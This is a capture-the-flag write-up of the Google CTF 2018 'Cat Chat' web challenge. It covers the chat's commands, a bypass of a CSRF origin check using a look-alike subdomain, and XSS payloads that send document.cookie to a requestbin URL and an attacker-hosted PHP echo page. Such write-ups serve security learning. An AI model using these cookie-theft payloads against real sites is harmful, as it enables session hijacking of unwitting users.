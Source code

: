 ```yaml
---
layout: post
title: Google CTF 2018 Qualifiers - Web
published: true
categories: [Web]
excerpt: I participated with OpenToAll last weekend. These solutions describe my thought processes in entirety, and may not be the fastest/most efficient way of solving.
---
```


Writeup of Main Challenges in Google CTF 2018.

These solutions describe my thought processes in entirety, and may not be the fastest/most efficient way of solving.

---

## Web

---

# Cat Chat

#### Category: Web | 46 solves | 210 points

<details><summary>Challenge Description</summary></details>

#### Goal
Get the Flag value of the admin sent via the /secret command

#### Command Analysis

`/name $(value)` sets value of $(name). Note that you can set yourself as admin by `/name admin`.

`/report $(name)` leads to `/ban $(name)` , i.e. admin goes to your site when you report the person.

`/secret $(value)` sets the value of the `flag` cookie. There's no filter or sanitization so any character will be accepted.

#### Steps

##### 1. Payload in $(name)

`$(name)` is controllable. But it can't be so simple, can it?       
Let's try `/report javascript:location.href="//requestbin.net/xxx"+document.cookie`:

[csrf check fail img]

Doh! There's a CSRF header check. Let's try to bypass that.

##### 2. CSRF

We can bypass the CSRF header check which only checks the start of the http location `cat-chat.web.ctfcompetition.com` like this:      
`cat-chat.web.ctfcompetition.com.example.com`     
Creating a subdomain on my server, we can do `cat-chat.web.ctfcompetition.com.ylkoh.top` to see the requests being sent to our server.  
We'll also host a PHP file on it to echo the request:    
```
<?php
  echo $_GET[c];
?>
```
Sending the same request above `/report javascript:location.href="//example.com/x.php"+document.cookie`: 
